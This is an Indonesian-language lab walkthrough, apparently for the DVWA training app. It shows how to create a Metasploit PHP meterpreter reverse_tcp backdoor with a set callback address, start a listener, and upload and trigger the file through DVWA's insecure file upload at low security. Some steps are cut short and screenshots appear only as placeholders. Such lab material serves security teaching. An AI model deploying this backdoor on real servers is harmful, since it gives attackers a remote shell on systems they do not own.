 Lesson 8: Upload PHP Backdoor Payload

1. Di metasploit, buka terminal dan jalankan perintah-perintah berikut

```
chown root:www-data /var/www/dvwa/hackable/uploads/
chmod 775 /var/www/dvwa/hackable/uploads/
ls -ld /var/www/dvwa/hackable/uploads/
```
picture(42)

2. Membuat msfpayload

```
mkdir -p /root/backdoor
cd /root/backdoor
msfpayload php/meterpreter/reverse_tcp LHOST=10.151.252.225 LPORT=4444 R > PHONE_HOME.php
ls -l PHONE_HOME.php
```
picture(43)

3. Edit file PHONE_HOME.php dan hilangkan tanda pagar "#" dibaris pertama
picture(44)

4. Jalankan perintah berikut
```
msfconsole
```
picture(45)

5. Menjalankan PHP Listener.
command
picture(46)

6. Buka firefox dan akses dvwa.............

7. Setelah login, masuk ke  DVWA security, atur ke low

8. Klik tab Upload, .....

9. Upload file PHONE_HOME.php tadi, dengan cara : file system/root/backdoor/
picture(47)

10. Aktifkan file php tadi dengan mengakses halaman http://10.0.1.100/dvwa/hackable/uploads/




